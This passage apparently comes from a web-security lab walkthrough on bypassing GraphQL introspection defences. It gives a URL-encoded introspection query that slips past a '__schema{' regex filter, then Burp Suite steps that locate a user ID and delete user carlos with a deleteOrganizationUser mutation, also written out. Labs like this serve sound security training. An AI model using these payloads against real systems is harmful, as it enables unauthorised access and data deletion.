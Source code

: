     /api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
                                    

    Notice that the response now includes full introspection details. This is because the server is configured to exclude queries matching the regex "__schema{", which the query no longer matches even though it is still a valid introspection query.

Exploit the vulnerability to delete carlos

    Right-click the request and select GraphQL > Save GraphQL queries to site map.

    Go to Target > Site map to see the API queries. Use the GraphQL tab and find the getUser query. Right-click the request and select Send to Repeater.

    In Repeater, send the getUser query to the endpoint you discovered.

    Notice that the response returns:
    {
    "data": {
    "getUser": null
    }
    }

    Click on the GraphQL tab and change the id variable to find carlos's user ID. In this case, the relevant user ID is 3.

    In Target > Site map, browse the schema again and find the deleteOrganizationUser mutation. Notice that this mutation takes a user ID as a parameter.

    Send the request to Repeater.

    In Repeater, send a deleteOrganizationUser mutation with a user ID of 3 to delete carlos and solve the lab.

    For example:

        /api?query=mutation+%7B%0A%09deleteOrganizationUser%28input%3A%7Bid%3A+3%7D%29+%7B%0A%09%09user+%7B%0A%09%09%09id%0A%09%09%7D%0A%09%7D%0A%7D
                                    

Lab: Bypassing GraphQL brute force protections


